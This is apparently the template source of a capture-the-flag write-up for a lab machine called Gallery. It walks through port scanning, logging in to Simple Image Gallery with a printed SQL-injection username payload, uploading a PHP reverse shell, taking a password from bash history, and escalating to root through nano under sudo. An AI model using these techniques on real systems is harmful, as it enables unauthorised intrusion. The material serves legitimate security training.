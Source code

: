 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.36.37", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-14 10:10 CET
Warning: 10.10.47.146 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.47.146
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 318.88 seconds")}}

{{text("We discover only 2 open ports: ")}}

{{list(['80 (HTTP)', '8080 (HTTP)'])}}

{{text("I visited the page at port 80, but it contained only a default Apache page, so I proceeded with port 8080.")}}

{{image("../../static/writeups/gallery/images/000001.jpg")}}

{{text("So the CMS being used is Simple Image Gallery. Let's search for any known exploits.")}}

{{link("https://www.exploit-db.com/exploits/50214", "https://www.exploit-db.com/favicon.ico", "Simple Image Gallery 1.0 - Remote Code Execution (RCE) (Unauthenticated)")}}

{{text("We don't even have to run the exploit because if we take a look at the line <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>post_data = {'username': 'admin' or '1'='1'#', 'password': ""}</code> we see the payload used for authentication bypassing.")}}

{{text("If we simply use it in the username field, we should be able to log in.")}}

{{image("../../static/writeups/gallery/images/000002.jpg")}}

{{text("We have access to the admin panel now. Now we can simply upload a PHP file with a reverse shell as one of the images, set up a listener and execute it.")}}

{{image("../../static/writeups/gallery/images/000003.jpg")}}

{{header("Shell as mike", "shell-as-mike")}}

{{text("While looking through the files, I found an interesting <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/backups</code> inside of the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/var</code> directory.")}}

{{text("There was another directory for the user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>mike</code>. Inside of it was a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.bash_history</code> file that contained his password.")}}

{{console("cat .bash_history", "cd ~
ls
ping 1.1.1.1
cat /home/mike/user.txt
cd /var/www/
ls
cd html
ls -al
cat index.html
sudo -l [REDACTED]
clear
sudo -l
exit")}}

{{text("Using that we can now switch users.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Since we knew our user password, I checked his sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh")}}

{{text("We check the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>rootkit.sh</code> file.")}}

{{console("cat rootkit.sh", "#!/bin/bash

read -e -p 'Would you like to versioncheck, update, list or read the report ? ' ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac")}}

{{text("Since we will run this file as sudo, the binaries used will get sudo privilages as well. Following that, we can check <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>GTFOBins</code> for a way to privilage escalate using these.")}}

{{text("We find that we can use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>nano</code> to gain elevated privilages.")}}

{{link("https://gtfobins.github.io/gtfobins/nano/", "https://gtfobins.github.io/assets/logo.png", "nano | GTFOBins")}}

{{text("We simply run the script with sudo and choose the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>read</code> option. When the report opens, we follow the commands provided and  we should get a shell as root.")}}

{{script()}}